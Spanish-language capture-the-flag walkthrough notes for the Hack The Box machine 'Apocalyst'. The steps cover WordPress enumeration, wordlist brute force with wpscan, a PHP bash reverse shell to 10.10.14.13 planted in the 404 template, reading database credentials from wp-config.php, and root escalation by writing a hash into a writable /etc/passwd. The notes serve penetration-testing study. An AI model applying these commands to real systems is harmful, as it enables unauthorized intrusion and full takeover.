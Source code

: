 ## Summary

- IP -> 10.10.10.46
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> Open SSH 7.2p2 Ubuntu 4ubuntu2.2
    - 80 -> WordPress 4.8

## Recon
Webpage 
- **/etc/host** Colocar la ruta ahi, porque esta aplicando virtual hosting
- Ruta de Login en WP **http:// apocalyst.htb/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
- Comando -> **curl -s -X GET http://apocalyst.htb/wp-json/wp/v2/users/** Miramos para ver si nos reporta un Json, en este caso no existe esa ruta en WP

Podemos buscar en searchsploit **ssh user enumeration** <7.7 un exploit en Python2
- Comando -> **python2 45939.py < VICTIM IP> < USER> 2/dev/null** Para confirmar si ese usuario existe en esa IP

- Comando -> **wfuzz -c -L --hc=404 --hh=157 -t 200 -w < RUTA DICCIONARIO> < http:// apocalyst.htb/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas, L=follow del redirect si el codigo es 301). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	Ruta del diccionario **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Cuando una pagina web tiene mucho texto, podemos usar eso para hacer un diccionario con esas palabras y asi podria ser mas personlizado.
- Comando -> **cewl -w Diccionario.txt http://apocalyst.htb/** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto
- Comando -> **wfuzz -c -L --hc=404 --hh=157 -t 200 -w < RUTA DICCIONARIO> < http:// apocalyst.htb/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con el diccionario que creamos de la webpage
	Ruta del diccionario **Diccionario.txt**

Encontramos una nueva ruta que contiene una imagen, pero esta imagen tiene mas caracteres. Por lo que podemos decir que en ella hay oculto un archivo de texto o algo. 

- Comando -> **exiftool <Image.jpg>** Con esa herramienta podemos ver los metadatos de una imagen 
- Comando -> **steghide info <Image.jpg>** Para ver si la imagen tiene contenido oculto
-  Comando -> **steghide extract -sf <Image.jpg>** Para ver si la imagen tiene contenido oculto (sf=sourcefile)

Noe extrae un diccionario llamado list.txt (rutas, passwd, etc...)

- Comando -> **wpscan --url http://apocalyst.htb/** Detecta vulnerabilidades, pluggins
- Comando -> **wpscan --url http://apocalyst.htb/ --enumerate u** Enumeras usuarios que puedan existir en un WordPress
- Comando -> **wpscan --url http://apocalyst.htb/ -U falaraki -P list.txt** Aplicas fuerza bruta, en donde colocas el usuario y en este caso el diccionario de las passwd

Probamos el usuario y passwd en el panel de login
Ruta de Login en WP **http:// apocalyst.htb/wp-admin.php** Es la ruta del panel de autenticacion de WordPress

## User

Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template
<?p
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>
Colocamos ese comando de ReverShell en la webpage

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux
- Comando -> **curl -s -X GET http://apocalyst.htb/?p=404** Apuntas a una ruta 404 y haces la peticion

Una vez adentro hacemos tratamiento de la TTY
Buscamos la flag user.txt 


- Comando -> **uname -a** Enumeras la version del Kernel
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es

- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find / -perm -4000 -user root -ls 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root, ademas de que nos reportara el usuario, grupo y permisos, pero no encontramos nada
- Comando -> **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
	* Comando -> **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva
		**cap_setuid+ep** Esperando encontrar ese
- Comando -> **cat /etc/crontab** Tareas CRON, que son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 

- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Miramos que esta corriendo MySQL y tienen el tipico archivo 
	**cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, y lo miramos en formato de pagina 

Ahi encontraremos el usuario root y su passwd pero de la base de datos de mysql
Nos conectamos a la base de datos de esta manera 
- Comando -> **mysql -u < user> -p** Nos conectamos y le proporcionamos la password encontrada en el archivo anterior
- **>show databases;** Muestra las bases de datos
- **>use *wp_myblog*;** Usamos una base de datos especifica, en este caso llamada mattermost
- **>show tables;** Mostramos el contenido de las tablas de la base de datos
- **>describe *wp_users*;** Miramos que columnas existen
- **>select *user_login,user_pass* from *wp_users*;** Seleccionamos los campos de una tabla especifica, pero encontramos la passwd que ya teniamos 


## Root
- Comando -> **find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**
- Comando -> **find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**, con ls podemos ver el propietario y si el grupo otros pueden modificarlo (w=write)
		Si podemos entrar al **/etc/passwd** podemos ponerle al usuario root una passwd directamente hasheada de forma hardcodeada, para que al momento de hacer un **sudo su** compare directamente con lo que colocamos y no lo lea del **/etc/shadow**
	- Comando -> **openssl passwd** Creamos una passwd en formato DES(unix), y este lo colocaremos en la parte verde de root:**x**:0:0 y guardamos el archivo

Ahora hacemos sudo su 
Nos convertimos en root y miramos la flag root.txt